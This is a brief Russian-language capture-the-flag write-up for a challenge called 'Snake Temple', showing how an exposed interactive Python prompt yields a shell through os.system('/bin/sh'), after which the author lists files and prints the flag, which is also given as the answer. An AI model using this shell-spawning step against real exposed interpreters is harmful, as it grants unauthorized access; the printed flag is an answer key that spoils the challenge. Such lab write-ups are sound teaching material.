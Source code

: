 # Snake Temple writeup
Это интерактивный питон. Давайте попроубем получить шелл с помощью библиотеки `system`:

```python
>>> from os import system
>>> system("/bin/sh")
```

И это работает, теперь мы можем спокойно посмотреть, что есть на машине:

```bash
$ ls
flag.txt
runner.sh
$ cat flag.txt
li2CTF{5N4K3_15_4N_1nflu3n7__Cr347ur3}
```

Флаг: `li2CTF{5N4K3_15_4N_1nflu3n7__Cr347ur3}`

